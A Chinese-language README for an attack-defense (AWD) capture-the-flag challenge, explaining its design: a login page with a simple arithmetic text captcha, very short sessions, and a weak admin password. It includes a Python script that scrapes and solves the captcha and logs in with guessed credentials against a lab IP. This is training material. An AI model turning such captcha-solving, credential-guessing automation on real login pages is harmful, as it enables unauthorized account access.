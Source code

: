 [TOC]

# 攻防题 - 出题思路

## 学习要点

+ python自动化脚本编写

+ 页面内容获取、正则表达式提取关键内容
+ 带简单文本验证码的自动登录、密码暴力破解
+ 自动提交表单获取flag

## 设计思路

+ PHP生成简单的文本形式的验证码
+ PHP session过期时间极短
+ 无法使用burp等自动发包
+ 可以手工攻击，但面对AWD攻防比赛环境，需要编制脚本自动进行批量攻击

## 操作步骤

访问URL可见登录框。

![image-20200309085950256](README.assets/image-20200309085950256.png)

需要通过文本形式的验证码校验。

弱口令登录后可获得flag。

![image-20200309090953391](README.assets/image-20200309090953391.png)

会话过期时间极短，只有几秒钟。

![image-20200309090150210](README.assets/image-20200309090150210.png)

而且在AWD中，这种登录攻击是批量进行的。所以登录必须通过脚本自动化完成。



编写自动登录脚本。

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import re
import requests

URL = "http://10.0.0.10/facebook/index.php"

session = requests.session()
r = session.get(URL)
html = r.text

a = re.findall(r"\d+\s*\+\s*\d+\s*\=\s*\?", html, re.M)
assert len(a) > 0
a = a[0]
b = re.findall(r"\d+", a)
assert len(b) == 2
c = int(b[0]) + int(b[1])

r = session.post(URL, dict(
    username="admin",
    password="12345678",
    validcode=str(c),
    submit="submit",
))
print(r.text)

```

![image-20200309091058272](README.assets/image-20200309091058272.png)



## 总结

训练选手编写自动化攻击脚本的能力。

